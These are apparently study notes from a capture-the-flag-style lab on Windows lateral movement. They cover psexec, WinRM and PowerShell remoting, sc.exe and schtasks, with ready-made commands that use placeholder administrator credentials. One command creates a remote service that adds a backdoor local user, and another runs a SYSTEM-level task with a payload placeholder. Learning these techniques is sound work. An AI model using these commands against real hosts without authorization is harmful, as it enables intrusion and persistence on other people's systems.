 ## Psexec (psexesvc.exe)
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

The way psexec works is as follows:
1. *Connect to Admin$ share and upload a service binary*. Psexec uses `psexesvc.exe` as the name.
2. *Connect to the service control manager* to create and run a service named *PSEXESVC* and associate the service binary with `C:\Windows\psexesvc.exe`.
3. *Create some named pipes* to handle *stdin/stdout/stderr*.

![](Pasted%20image%2020241116001403.png)

To run psexec, we only need to supply the required *administrator credentials* for the remote host and the *command we want to run.*
```shell-session
psexec64.exe \\{MACHINE_IP} -u Administrator -p Mypass123 -i cmd.exe
```


## WinRM (winrs.exe)
- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:
```shell-session
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a *PSCredential* object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our *PSCredential* object, we can create an interactive session using the `Enter-PSSession` cmdlet:
```powershell
Enter-PSSession -Computername {TARGET} -Credential $credential
```

Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a *PSCredential* object as well:
```powershell
Invoke-Command -Computername {TARGET} -Credential $credential -ScriptBlock {whoami}
```


## sc (sc.exe)
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with *sc.exe*, a standard tool available in Windows. When using sc, it will try to connect to the *Service Control Manager (SVCCTL)* remote service program through *RPC* in several ways:

1. *A connection attempt will be made using RPC/DCE.* 
	   The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. 
		   The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	 ![](Pasted%20image%2020241116004617.png)
2. *If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)*.
	 ![](Pasted%20image%2020241116004902.png)

We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe \\{TARGET} create {THMservice} binPath= "net user munra Pass123 /add" start= auto
sc.exe \\{TARGET} start {THMservice}
```
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\{TARGET} stop {THMservice}
sc.exe \\{TARGET} delete {THMservice}
```

## Scheduled Tasks
 You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
 ```shell-session
schtasks /s {TARGET} /RU "SYSTEM" /create /tn {"THMtask1"} /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s {TARGET} /run /TN {"THMtask1"} 
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this *a blind attack.*

Finally, to delete the scheduled task, we can use the following command:
```shell-session
schtasks /S {TARGET} /TN {"THMtask1"} /DELETE /F
```


## Example
